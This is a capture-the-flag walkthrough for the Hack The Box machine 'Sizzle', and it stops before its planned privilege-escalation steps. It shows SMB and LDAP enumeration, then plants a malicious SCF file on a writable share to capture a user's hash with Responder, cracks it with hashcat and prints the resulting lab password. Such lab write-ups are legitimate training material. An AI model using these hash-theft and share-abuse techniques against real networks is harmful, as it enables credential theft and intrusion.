

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---

# Sizzle

## Walkthrough Summary

[Sizzle](https://app.hackthebox.com/machines/169) is an <mark style="color:red;">insane-rated</mark> box which&#x20;

<table><thead><tr><th width="86" align="right">Step</th><th width="189">Action</th><th width="138">Tool</th><th width="335">Achieved</th></tr></thead><tbody><tr><td align="right">1</td><td>FTP Enumeration</td><td><a href="https://github.com/rapid7/metasploit-framework">Metasploit</a></td><td>Initial Foothold</td></tr><tr><td align="right">2</td><td>System Enumeration</td><td><a href="https://encyclopedia.kaspersky.com/glossary/lotl-living-off-the-land/">LOTL</a>*</td><td>Lateral Movement</td></tr><tr><td align="right">3</td><td>Domain Enumeration</td><td><a href="https://www.libreoffice.org/">LibreOffice</a></td><td>Privilege Escalation Path </td></tr><tr><td align="right">4</td><td>Password Change</td><td><a href="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1">PowerView</a></td><td>Step 1/2 of Privesc</td></tr><tr><td align="right">5</td><td>Group Membership</td><td><a href="https://encyclopedia.kaspersky.com/glossary/lotl-living-off-the-land/">LOTL</a>*</td><td>Step 2/2 of Privesc</td></tr><tr><td align="right">6</td><td>System Enumeration</td><td><a href="https://encyclopedia.kaspersky.com/glossary/lotl-living-off-the-land/">LOTL</a>*</td><td>Domain Compromise</td></tr></tbody></table>

\*_Living Off The Land_

## Information Gathering

We start with a Nmap port-scan.


```bash
$ sudo nmap 10.10.10.103 -T4 -open -p- -A

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
|_ssl-date: 2024-03-28T16:43:31+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
| tls-alpn:
|   h2
|_  http/1.1
| http-methods:
|_  Potentially risky methods: TRACE
|_ssl-date: 2024-03-28T16:43:31+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Microsoft-IIS/10.0
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
|_ssl-date: 2024-03-28T16:43:31+00:00; 0s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
|_ssl-date: 2024-03-28T16:43:31+00:00; -1s from scanner time.
3269/tcp  open  ssl/ldap
|_ssl-date: 2024-03-28T16:43:31+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2018-07-02T20:26:23
|_Not valid after:  2019-07-02T20:26:23
| tls-alpn:
|   h2
|_  http/1.1
|_http-title: Not Found
|_ssl-date: 2024-03-28T16:43:31+00:00; 0s from scanner time.
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49683/tcp open  msrpc         Microsoft Windows RPC
49684/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
49704/tcp open  msrpc         Microsoft Windows RPC
49721/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016 (88%)
OS CPE: cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2016 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: SIZZLE; OS: Windows; CPE: cpe:/o:microsoft:windows
```


There are some interesting things to note down:

1. The Fully Qualified Domain Name (FQDN) is `SIZZLE.HTB.LOCAL`.
2. The FTP service is available and allows anonymous logins, but it seems empty.
3. Ports `5985` and `5986` are available which are associated witn WinRM.
4. The web server ports, `80` and `443` are also available.
5. There are services such as SMB, DNS, and LDAP which suggests that this host is a Domain Controller (DC).

Before proceeding further, we should add the names found above in our local DNS file.

```bash
# adding hostname, domain, and FQDN to local DNS file
grep reel /etc/hosts
10.10.10.103     sizzle htb.local sizzle.htb.local
```

### Web Server Enumeration

The homepage on port `80` shows some delicious bacons sizzling 🥓 (Figure 1) !

<div align="left">

<figure><figcaption><p>Figure 1: The sizzling bacons!</p></figcaption></figure>

</div>

[Fuzzing](../../tools/tools/web/fuff.md) for directories, subdomains, and vhosts returns nothing. The same goes for [checking the metadata](../../tools/tools/images.md) of the GIF image. Not much else to explore here!

### SMB Enumeration

Let's see if the SMB server proves more fruiful 🍌 (Figure 2).

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># enumerating shares
</strong><strong>nxc smb sizzle.htb.local -u 'guest' -p '' --shares
</strong></code></pre>

<figure><figcaption><p>Figure 2: Listing available shares.</p></figcaption></figure>

&#x20;There are three non-default shares: `CertEnroll`, `Operations`, `Department Shares`. We can only `READ` the latter, so let's see what's inside (Figure 3).


```bash
# spidering the share
$ nxc smb sizzle.htb.local -u 'guest' -p '' --spider 'Department Shares' --regex . --depth 0
```


<figure><figcaption><p>Figure 3: Spidering the 'Department Shares' share.</p></figcaption></figure>

A lot of different directories are there, so let's download (Figure 4) and work with them locally (Figure 5).


```bash
# downloading the share content
nxc smb sizzle.htb.local -u 'guest' -p '' -M spider_plus -o DOWNLOAD_FLAG=True MAX_FILE_SIZE=420000 OUTPUT_FOLDER=SMB/
```


<figure><figcaption><p>Figure 4: Downloading the 'Department Shares' share.</p></figcaption></figure>

<figure><figcaption><p>Figure 5: Listing the content of the ZZ_ARCHIVE directory.</p></figcaption></figure>

All files seems broken; noone can actually open 😤 ! This share also contains a `Users` directory which lists this machine's usernames (Figure 6). As a result, we can create a username list and try some common AD attacks with it. &#x20;


```bash
# spidering the Users folder
nxc smb 10.10.10.103 -u 'guest' -p '' --spider 'Department Shares' --spider-folder Users --regex .
```


<figure><figcaption><p>Figure 6: Spidering the User's directory.</p></figcaption></figure>

We can write the output into a file and then clean it appropriately (Figure 7).


```bash
# write output to a file
nxc smb 10.10.10.103 -u 'guest' -p '' --spider 'Department Shares' --spider-folder Users --regex . > nxc_users.lst
# clean the first few and last junk lines manually
nano nxc_users.lst
# extract the usernames
cat nxc_users.lst | cut -d'U' -f2 | cut -d'/' -f2 | cut -d' ' -f1 | sort | uniq > users.lst
# clean the junk lines manually
nano users.lst
# check the final list
cat users.lst
```


<figure><figcaption><p>Figure 7: Creating a clean username list.</p></figcaption></figure>

Attempting an [ASREPRoasting](../../tl-dr/tl-dr/active-directory/asreproasting.md) attack is unsuccesful.&#x20;

### LDAP Enumeration

The web ports and SMB have given us nothing so far. Our options are narrowing down, so LDAP might be the way in🤞(Figure 8) !&#x20;

```bash
# enumrerating users via ldap
nxc ldap sizzle.htb.local -p '' -u '' --users
```

<figure><figcaption><p>Figure 8: Trying to enumerate through LDAP.</p></figcaption></figure>

LDAP needs a valid user, so it is also gives us nothing.&#x20;

## SCF Files

We have enumerated almost everything, and we have nothing :thinking: ! SMB has given us the most information so far, and there is one last thing we could enumerate: **writable directories**. If we find a directory in which we have `WRITE` access, we can upload a malicious file and steal any user's hash when they log into that folder.

First, we need to mount the whole share (Figure 9).

```bash
# mounting the share
sudo mount -t cifs '//10.10.10.103/Department Shares' './SMB/Department Shares'
# listing the files within the share
ls SMB/Department\ Shares/
```

<figure><figcaption><p>Figure 9: Mounting the share and listing its contents.</p></figcaption></figure>

Next, we have to check for the permissions of each directory. We can do this using a `for` loop and `smbcalcs` while moving from directory to directory. We are looking for an ACL the gives `Everyone` `WRITE` or `FULL` access (Figure 10).


```bash
for i in $(ls); do echo $i; smbcacls -N '//10.10.10.103/Department Shares' $i ; done
```


<figure><figcaption><p>Figure 10: Enumerating directory ACLs.</p></figcaption></figure>

After enumerating all directories, we find out that `Everyone` has `FULL` access to `Users/Public` (Figure 11) !

<figure><figcaption><p>Figure 11: Everyone has FULL access to the Public folder!</p></figcaption></figure>

Following the steps found [here](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) (Figure 12), sure enought `amanda` opens the file :open\_file\_folder: and we get her hash (Figure 13) !

```bash
# copying the file to the writable directory
sudo cp important.scf SMB/Users/Public/
# firing up responder
sudo responder -I tun0
```

<figure><figcaption><p>Figure 12: Creating an SCF file and uploading it to the writable directory.</p></figcaption></figure>

<figure><figcaption><p>Figure 13: Amanda opens the file and we get her hash back!</p></figcaption></figure>

We can now copy the hash to a file and use `hashcat` to crack it :unlock: (Figure 14).

```bash
# cracking the hash
hashcat amanda_hash /usr/share/wordlists/rockyou.txt
# showing the result

```

<figure><figcaption><p>Figure 14: Cracking the hash with Hashcat.</p></figcaption></figure>

Let's validate Amanda's credentials and check if she has WinRM access (Figure 15).

```bash
# writing the password to a file
echo "Ashare1972" > amanda_pass
# validating credentials
nxc smb 10.10.10.103 -u amanda -p amanda_pass
# checking for WinRM access
nxc winrm 10.10.10.103 -u amanda -p amanda_pass
```

<figure><figcaption><p>Figure 15: Validating Amanda's credentials and checking remote access.</p></figcaption></figure>

## Resources










